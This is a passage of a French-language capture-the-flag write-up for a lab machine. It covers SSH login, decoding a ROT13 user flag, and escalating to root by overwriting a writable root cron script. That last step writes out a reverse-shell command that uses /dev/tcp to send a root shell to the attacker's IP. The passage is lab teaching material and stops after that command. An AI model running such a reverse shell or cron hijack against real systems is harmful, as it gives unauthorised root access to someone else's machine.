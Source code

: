 ![page5](./task1-05.png)

On se connect sur le SSH avec notre mot passe et le nom d'utilisateur.  
On regarde dans le fichier user.txt.  
Le message est encodé en ROT13 on le décode.   
Le flag est : flag{n0wits33msn0rm4l}   

**What is the root flag?**

```bash
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh

boring@kral4-PC:~$ ls -al  /var/www/.mysecretcronjob.sh 
-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh

boring@kral4-PC:~$ echo "/bin/bash -l > /dev/tcp/10.9.228.66/1234 0<&1 2>&1"  >  /var/www/.mysecretcronjob.sh 
```
